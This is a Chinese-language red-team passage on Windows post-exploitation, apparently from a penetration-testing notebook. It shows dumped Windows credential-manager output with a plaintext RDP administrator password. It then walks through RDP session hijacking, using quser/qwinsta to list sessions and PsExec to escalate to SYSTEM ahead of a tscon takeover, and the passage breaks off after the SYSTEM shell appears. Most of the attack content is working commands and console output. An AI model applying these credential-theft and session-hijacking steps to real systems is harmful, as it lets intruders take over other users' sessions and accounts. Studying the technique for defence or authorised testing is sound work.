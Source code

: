 ```console
  LastWritten    : 2023-11-24 7:30:06
  unkFlagsOrSize : 00000018 - 24
  Persist        : 00000002 - 2 - local_machine
  AttributeCount : 00000000 - 0
  unk0           : 00000000 - 0
  unk1           : 00000000 - 0
  TargetName     : Domain:target=TERMSRV/192.168.70.130
  UnkData        : (null)
  Comment        : (null)
  TargetAlias    : (null)
  UserName       : DESKTOP-TEST\administrator
  CredentialBlob : Admin@123
  Attributes     : 0

```

TargetName - 目标主机；UserName - 用户名；CredentialBlob - 解密后的明文密码。

## RDP Session Hijacking

对于开启远程桌面服务的 Windows Server 系统，当有多个不同用户登录该系统时，会产生多个 RDP 会话。在劫持其它登录的用户时，会将目标用户挤下去。（非服务器版本的 Windows 系统默认只允许一个账户登录）

---

获取每个用户对应的会话信息：

```console
C:\Users\Administrator\Desktop>quser
 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>administrator         rdp-tcp#3           2  Active          .  9/27/2023 10:21 PM
 test                  rdp-tcp#4           3  Active          8  9/27/2023 10:28 PM

C:\Users\Administrator\Desktop>qwinsta
 SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE
 services                                    0  Disc
>rdp-tcp#3         Administrator             2  Active
 rdp-tcp#4         test                      3  Active
 console                                     4  Conn
 rdp-tcp                                 65536  Listen
```

### cmd - tscon

可以利用 PsExec 从 administrator 到 SYSTEM 权限进行操作，创建服务使用 [tscon](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/tscon) 命令对目标进行 RDP 会话劫持：

```console
C:\Users\Administrator\Desktop>quser
 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON     TIME
>administrator         rdp-tcp#9           2  Active          .  9/27/2023 10:21 PM
 test                  rdp-tcp#10          3  Active          4  9/27/2023 10:28 PM

C:\Users\Administrator\Desktop>.\PsExec64.exe -s -accepteula cmd

PsExec v2.4 - Execute processes remotely
Copyright (C) 2001-2022 Mark Russinovich
Sysinternals - www.sysinternals.com


Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

```
